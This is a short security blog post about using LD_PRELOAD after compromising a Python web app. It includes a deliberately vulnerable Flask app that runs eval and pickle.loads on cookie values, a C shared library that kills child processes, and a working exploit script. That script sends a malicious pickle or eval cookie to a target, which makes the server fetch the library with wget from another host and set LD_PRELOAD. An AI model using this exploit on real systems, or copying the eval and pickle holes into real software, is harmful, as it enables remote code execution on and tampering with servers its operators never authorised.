 ```yaml
---
title:  "Cripple Python Vulnerabilities with LD_PRELOAD"
tags:
  - Python
  - post-compromise
  - LD_PRELOAD
related: false
---
```


A novel use for LD_PRELOAD when exploiting Python vulnerabilities

On Linux the LD_PRELOAD environmental variable (or /etc/ld.so.preload file) will load the specified shared library files first, selectively overriding functions of any other library found in the LD_LIBRARY_PATH.  This is useful for debugging, patching bugs, and [escalating privileges to root](http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html).

A novel idea is to use LD_PRELOAD to cripple Python vulnerabilities that allow code execution in the same process.  The following arbitrarily vulnerable Flask app offers an example.

```python
from base64 import b64decode
import pickle
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'PUT'])
def index():
    try:
        if 'eval' in request.cookies:
            eval(request.cookies['eval'])

        if 'pickle' in request.cookies:
            pickle.loads(b64decode(request.cookies['pickle']))
    except Exception as e:
        print(e)


app.run()
```

Unlike PHP and Java, Python allows the process environmental variables to change at runtime.  Child process inherit the environment from the parent, so by setting the LD_PRELOAD variable we can poison processes created via the vulnerability.  By overriding the `_init` [function](http://www.faqs.org/docs/Linux-HOWTO/Program-Library-HOWTO.html#INIT-AND-CLEANUP) it is possible to kill new child process when the linker attempts to load shared libraries.

```c
#include <stdlib.h>

void
_init() {
    exit(0);
}
```

```bash
gcc -fPIC -shared -nostartfiles -o .so src.c
```

To cripple the vulnerability, use the following Python script to download the shared library and set the LD_PRELOAD environment variable.

```python
from base64 import b64encode
import pickle
import requests
import os


class Exploit(object):
    def __reduce__(self):
        return eval, ('__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")',)


if True:
    requests.post('http://10.0.0.3:5000/', cookies={'pickle': b64encode(pickle.dumps(Exploit())).decode()})
else:
    requests.post('http://10.0.0.3:5000/', cookies={'eval': '__import__("os").system("wget http://10.0.0.2/.so -O /tmp/.so") & __import__("os").environ.__setitem__("LD_PRELOAD", "/tmp/.so")'})
```

